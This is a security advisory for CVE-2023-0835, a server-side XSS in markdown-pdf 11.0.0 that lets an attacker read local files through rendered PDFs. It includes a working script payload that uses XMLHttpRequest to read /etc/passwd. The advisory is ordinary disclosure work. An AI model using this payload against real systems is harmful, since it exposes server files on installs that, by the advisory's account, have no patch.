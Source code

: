 ```yaml
---
slug: advisories/relsb/
title: markdown-pdf 11.0.0 - Local File Read via Server Side XSS
authors: Carlos Bello
writer: cbello
codename: relsb
product: markdown-pdf 11.0.0 - Local File Read
date: 2023-03-06 12:00 COT
cveid: CVE-2023-0835
severity: 7.5
description: markdown-pdf 11.0.0 - Local File Read via Server Side XSS
keywords: Fluid Attacks, Security, Vulnerabilities, Markdown, PDF, LFR
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | markdown-pdf 11.0.0 - Local File Read                              |
| **Code name**         | [RelsB](https://en.wikipedia.org/wiki/Rels_B)                      |
| **Product**           | markdown-pdf                                                       |
| **Affected versions** | Version 11.0.0                                                     |
| **State**             | Public                                                             |
| **Release date**      | 2023-03-06                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Server Side XSS                                                                                                             |
| **Rule**              | [425. Server Side XSS](https://docs.fluidattacks.com/criteria/vulnerabilities/425)                                          |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N                                                                                |
| **CVSSv3 Base Score** | 7.5                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-0835](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0835)                                               |

## Description

markdown-pdf version 11.0.0 allows an external attacker to remotely obtain
arbitrary local files. This is possible because the application does not
validate the Markdown content entered by the user.

## Vulnerability

This vulnerability occurs because the application does not validate that
the Markdown content entered by the user is not malicious.

## Exploitation

To exploit this vulnerability, we only need to send the following malicious
Markdown to markdown-pdf:

### Exploit.md

```html
<script>
    // Path Disclosure
    document.write(window.location);
    // Arbitrary Local File Read
    xhr = new XMLHttpRequest;
    xhr.onload=function(){document.write((this.responseText))};
    xhr.open("GET","file:///etc/passwd");
    xhr.send();
</script>
```

Thus, when markdown-pdf parses the malicious Markdown, it will return the local
file specified in the generated PDF.

## Evidence of exploitation

<iframe src="https://rb.gy/rph20g"
frameborder="0" width="835px" height="505px"
allowfullscreen></iframe>

![LFR-Node-PDF](https://user-images.githubusercontent.com/51862990/220176263-ca40f665-e82b-4521-8c86-42d76d7596be.png)

## Our security policy

We have reserved the ID CVE-2023-0835 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: electron-pdf 11.0.0

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://www.npmjs.com/package/markdown-pdf/>

## Timeline

<time-lapse
  discovered="2023-02-20"
  contacted="2023-02-20"
  replied="2023-02-20"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
